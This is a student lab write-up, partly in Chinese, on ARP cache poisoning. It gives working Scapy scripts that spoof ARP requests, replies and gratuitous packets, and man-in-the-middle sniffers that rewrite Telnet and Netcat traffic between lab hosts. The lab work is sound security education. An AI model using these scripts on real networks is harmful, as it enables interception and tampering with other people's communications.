


# ARP Cache Poisoning


## Task 1: ARP Cache Poisoning

**Task 1.A (using ARP request).** On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 1 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.5"
pkt = E/A
sendp(pkt)
```

在host A上，


可见我们成功通过ARP request让host A的ARP缓存中B的IP地址映射到M的MAC地址。

---

**Task 1.B (using ARP reply).** On host M, construct an ARP reply packet to map B’s IP address to M’s MAC address. Send the packet to A and check whether the attack is successful or not. Try the attack under the following two scenarios, and report the results of your attack:

– Scenario 1: B’s IP is already in A’s cache.
– Scenario 2: B’s IP is not in A’s cache. You can use the command "arp -d a.b.c.d" to remove the ARP cache entry for the IP address a.b.c.d.

在任务1后，已经满足场景1的要求。

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 2 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.5"
pkt = E/A
sendp(pkt)
```



结果与任务1效果相同。

```shell
arp -d 10.9.0.6
arp -d 10.9.0.105
```

进入场景2，再次运行ARP reply的脚本。这次攻击没有成功。


---

**Task 1.C (using ARP gratuitous message).** On host M, construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios as those described in Task 1.B.
ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has the following characteristics:
– The source and destination IP addresses are the same, and they are the IP address of the host issuing the gratuitous ARP.
– The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC address (ff:ff:ff:ff:ff:ff).
– No reply is expected.

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.6"
A.hwdst = "ff:ff:ff:ff:ff:ff"
E.dst = "ff:ff:ff:ff:ff:ff"
pkt = E/A
sendp(pkt)
```

模拟上一任务提到的两个场景。场景1，我们先用host B ping host A，使得host A的ARP缓存中B的IP对应B的MAC地址。然后从M运行攻击脚本，可以看见B的IP被映射到了M的MAC地址。


场景2，攻击没有成功。


## Task 2: MITM Attack on Telnet using ARP Cache Poisoning

### Step 1 (Launch the ARP cache poisoning attack).

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 1 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.5"
pkt = E/A
sendp(pkt)

E = Ether()
A = ARP()
A.op = 1 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.5"
A.pdst = "10.9.0.6"
pkt = E/A
sendp(pkt)
```

### Step 2 (Testing).

```
# sysctl net.ipv4.ip_forward=0
```

A、B之间起初不能ping通，但在几次失败的ping request后，重新发送了ARP request，A、B的ARP表被修正，立即就能ping通了。这个过程可以通过Wireshark抓包的结果对比验证。





### Step 3 (Turn on IP forwarding). 

Now we turn on the IP forwarding on Host M, so it will forward the packets between A and B. Please run the following command and repeat Step 2. Please describe your observation.


```
# sysctl net.ipv4.ip_forward=1
```

尽管能ping通，但由于M不知道需要伪装成A/B，所以会发送ICMP redirect包。


### Step 4 (Launch the MITM attack).

```python
#!/usr/bin/env python3
from scapy.all import *
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
	if pkt[IP].src == IP_A and pkt[IP].dst == IP_B and pkt[Ether].dst == MAC_M:
	# Create a new packet based on the captured one.
	# 1) We need to delete the checksum in the IP & TCP headers,
	# because our modification will make them invalid.
	# Scapy will recalculate them if these fields are missing.
	# 2) We also delete the original TCP payload.
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		#################################################################
		# Construct the new payload based on the old payload.
		# Students need to implement this part.
		if pkt[TCP].payload:
			data = pkt[TCP].payload.load # The original payload data
			data_len = len(data)
			newdata = 'Z' * data_len
			send(newpkt/newdata)
		else:
			send(newpkt)
	################################################################
	elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A and pkt[Ether].dst == MAC_M:
		# Create new packet based on the captured one
		# Do not make any change
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)
f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

从A上启动一个telnet连接到B，然后在M上启动脚本，发现无论输入什么字符，都会被替换回Z，即使是回车、退格等。


## Task 3: MITM Attack on Netcat using ARP Cache Poisoning

与Task2相差不大，只需要将名字替换为相同长度的A。

```python
#!/usr/bin/env python3
from scapy.all import *
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
	if pkt[IP].src == IP_A and pkt[IP].dst == IP_B and pkt[Ether].dst == MAC_M:
	# Create a new packet based on the captured one.
	# 1) We need to delete the checksum in the IP & TCP headers,
	# because our modification will make them invalid.
	# Scapy will recalculate them if these fields are missing.
	# 2) We also delete the original TCP payload.
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		#################################################################
		# Construct the new payload based on the old payload.
		# Students need to implement this part.
		if pkt[TCP].payload:
			data = pkt[TCP].payload.load # The original payload data
			newdata = data.replace(str.encode("hqy"), str.encode("AAA"))
			send(newpkt/newdata)
		else:
			send(newpkt)
	################################################################
	elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A and pkt[Ether].dst == MAC_M:
		# Create new packet based on the captured one
		# Do not make any change
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)
f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```


